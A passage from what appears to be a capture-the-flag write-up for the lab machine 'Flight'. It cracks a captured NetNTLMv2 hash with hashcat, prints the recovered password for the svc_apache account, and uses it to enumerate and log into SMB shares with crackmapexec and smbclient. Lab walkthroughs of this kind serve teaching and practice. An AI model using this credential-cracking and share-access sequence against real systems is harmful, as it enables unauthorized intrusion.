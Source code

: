 
Yess, I got hash of `svc_apache` user, let's crack this hash via `hashcat` tool.

```bash
hashcat -m 5600 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```

![Alt text](img/image-10.png)


I found password of this user.

svc_apache: S@Ss!K@*t13


Let's enumerate SMB share via this credentials by using `crackmapexec` tool.

```bash
crackmapexec smb 10.10.11.187 -u svc_apache -p 'S@Ss!K@*t13' --shares
```

![Alt text](img/image-11.png)


I login into SMB Share called '**Users**' by using `smbclient` tool.

```bash
smbclient //flight.htb/users -U flight.htb\\svc_apache
```

![Alt text](img/image-12.png)
